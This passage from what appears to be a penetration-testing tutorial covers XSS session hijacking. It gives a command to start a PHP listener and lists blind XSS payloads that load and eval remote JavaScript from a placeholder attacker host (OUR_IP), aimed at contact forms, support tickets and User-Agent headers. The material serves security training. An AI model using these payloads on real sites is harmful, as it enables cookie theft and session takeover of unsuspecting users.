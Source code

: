 Now that we have our index.php file ready, we can start a PHP listening server, which we can use instead of the basic netcat listener we used earlier:

```bash
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #at this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80
```

# Session Hijacking
Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a Session Hijacking (aka Cookie Stealing) attack.

## Blind XSS Detection
We usually start XSS attacks by trying to discover if and where an XSS vulnerability exists. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

```js
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```


### Loading a Remote Script
So, we can use this to execute a remote JavaScript file that is served on our VM. We can change the requested script name from script.js to the name of the field we are injecting in, such that when we get the request in our VM, we can identify the vulnerable input field that executed the script.

If we get a request for /username, then we know that the username field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request. The following are a few examples we can use from PayloadsAllTheThings
